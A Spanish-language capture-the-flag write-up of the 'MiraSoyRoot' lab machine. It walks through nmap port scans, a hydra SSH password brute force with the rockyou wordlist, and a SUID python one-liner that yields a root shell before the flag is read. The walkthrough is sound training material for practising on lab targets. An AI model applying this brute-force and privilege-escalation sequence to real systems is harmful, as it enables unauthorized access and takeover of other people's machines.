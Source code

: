 ```yaml
---
layout: post
title: Mirasoyroot
subtitle: Plataforma MiraSoyRoot Dificultad Muy Fácil
cover-img: /assets/img/mirasoyroot.png
thumbnail-img: /assets/img/mirasoyroot.png
share-img: /assets/img/mirasoyroot.png
author: Elmili72
---
```


## Escaneo general de puertos

Como siempre, emepezamos realizando un escaneo de los puertos que pudiera tener abiertos nuestra víctima.

```bash
❯ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
Host is up, received arp-response (0.0000020s latency).
Scanned at 2025-06-23 16:24:17 CEST for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## Escaneo específico de puertos

Una vez conocidos, realizaremos un escaneo específico de los puertos encontrados para conocer los servicios y la versión de estos. En este caso de los puertos 22 (SSH) y 80 (HTTP).

```bash
❯ nmap -sCV -p22,80 172.17.0.2 -oN escaneo
Host is up (0.000030s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 03:56:8c:b4:94:cc:4b:c5:66:08:73:43:68:68:25:96 (ECDSA)
|_  256 ce:44:d8:21:9b:a5:7c:79:df:3c:d5:e1:d5:8a:d2:ae (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: M\xC3\xA1quina Vulnerable
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento Servicio Web

Al ver el servicio web es conveniente realizar un reconocimiento incial de este, para ver por encima el contenido y como está montado. De primeras nada demasiado importante (obviando que nos dice que el título es máquina vulnerable jajaja).

```bash
❯ whatweb http://172.17.0.2
http://172.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Title[Máquina Vulnerable]
```

![Pasted image 20250623162730](https://github.com/user-attachments/assets/0ab0ee0a-07c5-40a0-9605-c27992a1c428)

No aparece nada útil en la fuente de la página. Por lo que podemos probarlo como usuario para la fuerza bruta contra el servicio SSH.
## Explotación

Al no encontrar otra vulnerabilidad diferente para explotar en la máquina, directamente, podemos usar hydra para realizar la intrusión al sistema.
### Intrusión

Y efectivamente conseguimos la contraseña del usuario *yerman*.

```bash
❯ hydra -l yerman -P /usr/share/wordlists/rockyou.txt -t 64 ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-23 16:29:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: yerman   password: teamo
1 of 1 target successfully completed, 1 valid password found
```

```bash
yerman@50df4a4188d9:~$ whoami
yerman
yerman@50df4a4188d9:~$ id
uid=1001(yerman) gid=1001(yerman) groups=1001(yerman),100(users)
```

## Post-Explotación

Miramos en el archivo */etc/passwd* y no vemos usuarios adicionales, por lo que podemos pensar que no hace falta realizar pivoting. Así que, como siempre, lo que más nos gusta. Toca escalar privilegios :D.
### Escalada de Privilegios

Realicé un *sudo -l* pero no nos permite usar *sudo* directamente, por lo que podemos buscar binarios o archivos con permisos *SUID* para explotarlos y conseguir nuestra escalada. Vemos el binario *python*, tal y como en el anterior writeup de la máquina anonymous.

```bash
yerman@50df4a4188d9:~$ find / -perm -4000 2>/dev/null
/usr/local/bin/python
/usr/bin/mount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/su
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Como siempre, si no estás acostumbrado o estás empezando en estos casos siempre recomiendo *GTFOBins* y os lo da muy claro. De todas formas es un oneliner de python muy sencillito con el que generamos una bash, a partir, de el binario explotable. (Intenté darle permisos *SUID* a la propia bash para no tener que realizar este comando todo el rato, pero no supe como, me toca aprender python1 D:).

```bash
yerman@50df4a4188d9:/tmp/privesc$ /usr/local/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
bash-5.2# whoami
root
bash-5.2# id
uid=1001(yerman) gid=1001(yerman) euid=0(root) groups=1001(yerman),100(users)
```

Y así conseguimos nuestro usuario *root* y leemos el contanido de la flag.

```bash
bash-5.2# cd /root
bash-5.2# pwd
/root
bash-5.2# ls
mirasoyroot.txt
bash-5.2# ls -la
total 28
drwx------ 1 root root 4096 Jan 31 13:16 .
drwxr-xr-x 1 root root 4096 Jun 23 16:23 ..
-rw-r--r-- 1 root root 3106 Apr 22  2024 .bashrc
drwxr-xr-x 3 root root 4096 Jan 31 13:12 .local
-rw-r--r-- 1 root root  161 Apr 22  2024 .profile
drwx------ 2 root root 4096 Jan 31 13:09 .ssh
-rw-r--r-- 1 root root  140 Jan 31 13:16 mirasoyroot.txt
bash-5.2# cat mirasoyroot.txt 
Enhorabuena hacker lo has conseguido, si eres de los tres primeros en completar la máquina háblame por Instagram y te pondré en el podio
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
